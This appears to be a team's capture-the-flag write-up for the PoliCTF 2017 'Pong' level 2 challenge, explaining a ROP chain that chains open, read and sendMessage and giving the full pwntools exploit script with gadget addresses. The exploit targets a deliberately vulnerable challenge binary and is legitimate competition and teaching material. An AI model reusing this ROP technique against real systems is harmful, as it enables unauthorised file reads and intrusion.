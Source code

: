 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl2)"
date:   2017-07-09 21:17
categories: [PoliCTF2017]
tags: [Pwn]
author: jbz
---
```

> Ready for another match? :P

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong2.tgz)

It is basically the same binary as [level1](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true), but without the `secret` function. 

This time we did ROP to achieve what the removed function was offering. 

We used ROPgadget to lookup for meaningful gadgets to achieve our intent. We chained gadgets to achieve calls to `open` then `read` (both of them had a PLT entry) and finally we called `sendMessage` to have the flag content printed back to the client socket. 

Since we didn't find a proper gadget in order to prepare the correct `fd` argument for the call to `read` (specifically the one returned by `open`) we tried to guess it. 

We observed that the `fd` number was 9 on our local machine, so we tried that value on the server and it worked like a charm at the first run. 

```

from pwn import *
import sys

def start_game(level, local=None):
    log.info("local: %s" % local)
    if str(local) == str("local"):
        p = remote('localhost', 31337)
    else:
        p = remote('pong.chall.polictf.it', 31337)
    p.sendline(level)
    p.recvuntil("OK ")
    s = p.recvline()
    c_port = int(s.strip())
    return c_port



def play_pong(port, local=None):
    print "connecting to pong UDP server at %d" % port
    if str(local) == str('local'):
        p = remote('localhost', port, typ="udp")
    else:
        p = remote('pong.chall.polictf.it', port, typ="udp")
    return p



def send_to_pong(p, pay, stop=None): 
    p.sendline(pay)
    s = None
    if stop:
        s = p.recv(timeout=5)
    return s



def prepare():
    port = start_game("Lv2", sys.argv[1])
    p = play_pong(port, sys.argv[1])
    return p



def payloadgen():
    # read(open("./flag2", O_RDONLY), buf, 256)
    # sendMessage(buf)
    pop_rdi = p64(0x406938) # pop rdi
    pop_rsi = p64(0x404717) # pod rsi 
    pop_rdx = p64(0x405c65) # pop rdx ; pop ; rsp+8 ; ret
    mov_rdi = p64(0x40df60) # 0x40df60 mov qword ptr [rdi], rdx ; ret
    buf = p64(0x61F560) # buffer (field of zeros)
    RDONLY = p64(0x0)
    
    pay = "1" + "|" + "2" * 22
    pay += pop_rdi
    pay += buf

    '''
    we observed that in someway ( we did not investigate on)
    the stack position where we put the
    flag string was modified corrupting 
    its value. so we add some instructions 
    to push deeper down to the stack 
    the string, so avoiding the corruption.
    '''
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash
    
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += mov_rdi
    pay += pop_rsi
    pay += RDONLY

    #0x0000000000416add : pop rax ; pop rbx ; pop rbp ; pop r12 ; ret
    pay += p64(0x0000000000416add)
    pay += p64(elf.plt['open'])
    pay += p64(0x0)
    pay += p64(0x0)
    pay += p64(0x0)

    #0x0000000000402e48 : call rax
    pay += p64(0x0000000000402e48)
    pay += p64(0x0)

    # mov rdi, rax
    pay += pop_rdi
    pay += p64(0x9)
    pay += pop_rsi
    pay += buf
    pay += pop_rdx
    pay += p64(0x100) # len
    pay += p64(0x100)
    pay += p64(0x100)
    pay += p64(elf.plt['read'])
    
    pay += pop_rdi
    pay += buf
    pay += p64(0x404526) # sendMessage
    return pay


elf = ELF('./level2/level2')
p = prepare()
raw_input("stop")
print("Sending reset")

pay = "-1|2"
send_to_pong(p, pay, False)
pay = payloadgen()
for x in range(1):
    log.info("SENDING FATAL PONG")
    send_to_pong(p, pay, False)

for x in range(10):
    print(p.recv())


'''

0x0000000000406938 : pop rdi ; ret

0x0000000000406936 : pop rsi ; pop r15 ; ret

0x0000000000404717 : pop rsi ; ret

0x0000000000405c65 : pop rdx ; pop rcx ; add rsp, 8 ; ret

0x0000000000407546 : push rax ; ret

00000000004036a0 <open@plt>:

0000000000403290 <read@plt>:

.text:0000000000404526 sendMessage     proc near           ; CODE XREF: broadcast+69p

.text:0000000000404526

.text:0000000000404526 mex         = qword ptr -18h

.text:0000000000404526

.text:0000000000404526         push    rbp

.text:0000000000404527         mov     rbp, rsp

.text:000000000040452A         push    rbx

.text:000000000040452B         sub     rsp, 18h

.text:000000000040452F         mov     [rbp+mex], rdi



'''

```
